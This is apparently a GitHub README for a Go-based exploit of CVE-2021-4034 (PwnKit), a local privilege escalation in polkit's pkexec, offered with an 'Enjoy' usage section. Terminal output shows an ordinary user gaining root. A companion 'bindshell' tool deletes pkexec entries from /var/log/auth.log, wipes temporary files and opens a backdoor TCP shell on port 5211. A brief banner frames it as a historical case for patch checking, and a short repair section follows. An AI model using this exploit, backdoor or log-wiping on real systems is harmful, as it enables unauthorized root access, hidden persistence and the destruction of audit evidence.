





# PwnKit-go-LPE (CVE-2021-4034)

> [!NOTE]
> **历史案例 · 补丁核对。** 判断修复状态，应以操作系统发行版的公告和已安装软件包为准，不应只看上游版本号。不要在生产主机上运行历史样本。
>
> [查看防御检查与记录建议](DEFENSIVE-NOTES.md)


A golang based exp for CVE-2021-4034 dubbed pwnkit

``` bash
@@@@@@@   @@@  @@@  @@@  @@@  @@@  @@@  @@@  @@@  @@@@@@@              @@@@@@@@   @@@@@@   
@@@@@@@@  @@@  @@@  @@@  @@@@ @@@  @@@  @@@  @@@  @@@@@@@             @@@@@@@@@  @@@@@@@@  
@@!  @@@  @@!  @@!  @@!  @@!@!@@@  @@!  !@@  @@!    @@!               !@@        @@!  @@@  
!@!  @!@  !@!  !@!  !@!  !@!!@!@!  !@!  @!!  !@!    !@!               !@!        !@!  @!@  
@!@@!@!   @!!  !!@  @!@  @!@ !!@!  @!@@!@!   !!@    @!!    @!@!@!@!@  !@! @!@!@  @!@  !@!  
!!@!!!    !@!  !!!  !@!  !@!  !!!  !!@!!!    !!!    !!!    !!!@!@!!!  !!! !!@!!  !@!  !!!  
!!:       !!:  !!:  !!:  !!:  !!!  !!: :!!   !!:    !!:               :!!   !!:  !!:  !!!  
:!:       :!:  :!:  :!:  :!:  !:!  :!:  !:!  :!:    :!:               :!:   !::  :!:  !:!  
 ::        :::: :: :::    ::   ::   ::  :::   ::     ::                ::: ::::  ::::: ::  
 :          :: :  : :    ::    :    :   :::  :       :                 :: :: :    : :  :   
                                                                                           
                                                                        By lUc1f3r11
```

# New features

 - dynamically pkexec path by just adding -pk arg
 - bind shell backdoor
 - /var/log/auth.log and pkexec tmp files clean
 - written in pure go and using upx compressed volume

## build

 - 

# Enjoy

1. run the pwnkit file to get root first

``` bash
┌──(kali㉿kali)-[/root/pwnkit/CVE-2021-4034-go]
└─$ id      
uid=1000(kali) gid=1000(kali) groups=1000(kali),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),119(wireshark),122(bluetooth),134(scanner),142(kaboxer)
                                                                                                                                    
┌──(kali㉿kali)-[/root/pwnkit/CVE-2021-4034-go]
└─$ whoami
kali
                                                                                                                                    
┌──(kali㉿kali)-[/root/pwnkit/CVE-2021-4034-go]
└─$ ./pwnkit   
@@@@@@@   @@@  @@@  @@@  @@@  @@@  @@@  @@@  @@@  @@@@@@@              @@@@@@@@   @@@@@@   
 @@@@@@@@  @@@  @@@  @@@  @@@@ @@@  @@@  @@@  @@@  @@@@@@@             @@@@@@@@@  @@@@@@@@  
 @@!  @@@  @@!  @@!  @@!  @@!@!@@@  @@!  !@@  @@!    @@!               !@@        @@!  @@@  
 !@!  @!@  !@!  !@!  !@!  !@!!@!@!  !@!  @!!  !@!    !@!               !@!        !@!  @!@  
 @!@@!@!   @!!  !!@  @!@  @!@ !!@!  @!@@!@!   !!@    @!!    @!@!@!@!@  !@! @!@!@  @!@  !@!  
 !!@!!!    !@!  !!!  !@!  !@!  !!!  !!@!!!    !!!    !!!    !!!@!@!!!  !!! !!@!!  !@!  !!!  
 !!:       !!:  !!:  !!:  !!:  !!!  !!: :!!   !!:    !!:               :!!   !!:  !!:  !!!  
 :!:       :!:  :!:  :!:  :!:  !:!  :!:  !:!  :!:    :!:               :!:   !::  :!:  !:!  
  ::        :::: :: :::    ::   ::   ::  :::   ::     ::                ::: ::::  ::::: ::  
  :          :: :  : :    ::    :    :   :::  :       :                 :: :: :    : :  :   
By lUc1f3r11
[+] Beginning exploit...
[+] mkdir 0755 GCONV_PATH=.
[+] chmod 0755 GCONV_PATH=./evildir
[+] mkdir 0755 evildir
[+] writefile 0755 evildir/gconv-modules
[+] writefile 0755 evildir/evil.so
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),119(wireshark),122(bluetooth),134(scanner),142(kaboxer),1000(kali)
# whoami
root
```

 - 

see the tmp file and log file exists

 - 

2. run bindshell file to clean /var/log/auth.log and pkexec tmp files and open a tcp bind shell

``` bash
# ./bindshell &
# [+] setting command exec path env
[+] cleaning /tmp/pkexec* files
[+] cleaning /var/log/auth.log pkexec logs
[+] cleaning /tmp/al
[+] open a bind tcp shell on port 5211

#
```

 - 

 - 

# vuln pkexec file and patched pkexec file avaliable to make your debug easier

 - [vuln pkexec](./pkexec)
 - [patched pkexec](./pkexec-good)

# vuln repair

``` bash
┌──(root💀kali)-[~/pwnkit]
└─# cp pkexec-good /usr/bin/pkexec
┌──(kali㉿kali)-[/root/pwnkit/CVE-2021-4034-go]
└─$ ./pwnkit
@@@@@@@   @@@  @@@  @@@  @@@  @@@  @@@  @@@  @@@  @@@@@@@              @@@@@@@@   @@@@@@   
 @@@@@@@@  @@@  @@@  @@@  @@@@ @@@  @@@  @@@  @@@  @@@@@@@             @@@@@@@@@  @@@@@@@@  
 @@!  @@@  @@!  @@!  @@!  @@!@!@@@  @@!  !@@  @@!    @@!               !@@        @@!  @@@  
 !@!  @!@  !@!  !@!  !@!  !@!!@!@!  !@!  @!!  !@!    !@!               !@!        !@!  @!@  
 @!@@!@!   @!!  !!@  @!@  @!@ !!@!  @!@@!@!   !!@    @!!    @!@!@!@!@  !@! @!@!@  @!@  !@!  
 !!@!!!    !@!  !!!  !@!  !@!  !!!  !!@!!!    !!!    !!!    !!!@!@!!!  !!! !!@!!  !@!  !!!  
 !!:       !!:  !!:  !!:  !!:  !!!  !!: :!!   !!:    !!:               :!!   !!:  !!:  !!!  
 :!:       :!:  :!:  :!:  :!:  !:!  :!:  !:!  :!:    :!:               :!:   !::  :!:  !:!  
  ::        :::: :: :::    ::   ::   ::  :::   ::     ::                ::: ::::  ::::: ::  
  :          :: :  : :    ::    :    :   :::  :       :                 :: :: :    : :  :   
By lUc1f3r11
[+] Beginning exploit...
[+] mkdir 0755 GCONV_PATH=.
[+] chmod 0755 GCONV_PATH=./evildir
[+] mkdir 0755 evildir
[+] writefile 0755 evildir/gconv-modules
[+] writefile 0755 evildir/evil.so
pkexec --version |
       --help |
       --disable-internal-agent |
       [--user username] PROGRAM [ARGUMENTS...]

See the pkexec manual page for more details.
```

# Reference

 - [pkwner](https://github.com/kimusan/pkwner)
 - [chenaotian/CVE-2021-4034](https://github.com/chenaotian/CVE-2021-4034)
 - [The tale of CVE-2021-4034 AKA PwnKit, The 13-Year Old Bug](https://www.hackthebox.com/blog/The-tale-of-CVE-2021-4034-AKA-PwnKit-The-13-Year-Old-Bug)
 - [PwnKit: Local Privilege Escalation Vulnerability Discovered in polkit’s pkexec (CVE-2021-4034)](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034)
 - [An00bRektn/CVE-2021-4034](https://github.com/An00bRektn/CVE-2021-4034)
 - [dzonerzy/poc-cve-2021-4034](https://github.com/dzonerzy/poc-cve-2021-4034)